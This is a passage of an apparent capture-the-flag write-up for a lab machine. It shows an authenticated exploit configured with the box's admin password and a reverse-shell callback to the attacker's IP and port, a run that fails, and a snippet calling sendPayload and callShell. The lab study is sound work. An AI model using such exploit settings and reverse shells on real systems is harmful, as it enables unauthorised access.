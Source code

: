 ![](attachments/love_11.png)

There's an existing exploit with the service.
Although this one requires Authentication, it doesn't matter since we already owned `admin`'s credential.
I downloaded the exploit and change the settings as follows;

```bash
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.14" # Reverse shell IP
REV_PORT = "9000" # Reverse port 
# --------------------------------
```

Now everything is set, and let's run it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python exploit.py
Start a NC listner on the port you choose above and run...
```

Unfortunately, the exploit is not successful. 

```python
<SNIP>

print("Start a NC listner on the port you choose above and run...")
sendPayload()
callShell()
```
